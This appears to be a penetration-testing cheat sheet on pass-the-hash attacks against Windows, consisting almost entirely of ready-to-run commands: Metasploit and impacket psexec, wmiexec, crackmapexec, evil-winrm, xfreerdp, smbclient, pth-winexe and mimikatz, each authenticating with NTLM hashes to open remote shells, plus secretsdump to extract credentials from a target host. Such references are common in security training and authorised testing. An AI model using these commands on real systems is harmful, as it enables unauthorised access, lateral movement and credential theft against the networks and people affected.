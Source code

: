 # Pass The Hash
-------
https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/

LM Hash: AAD3B435B51404EEAAD3B435B51404EE
msf
```bash
msf > use exploit/windows/smb/psexec
```

psexec
```bash
python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:08df3c73ded940e1f2bcf5eea4b8dbf6 tris@10.11.1.20 cmd.exe
```

cme
```bash
cme smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79  -d domain.local
```

wmiexec
```bash
wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
```

winrm
```bash
evil-winrm -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
```

xfreerdp
```bash
xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
```

LDAP
```bash
secretsdump.py ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
```

smbclient
```txt
smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local
```

```bash
./pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Over pass the hash using mimikatz
```cmd
sekurlsa::pth /user:Administrator /domain: /ntlm: /run:Powershell.exe
```

```cmd
.\PsExec.exe \\10.11.1.20 cmd 
```

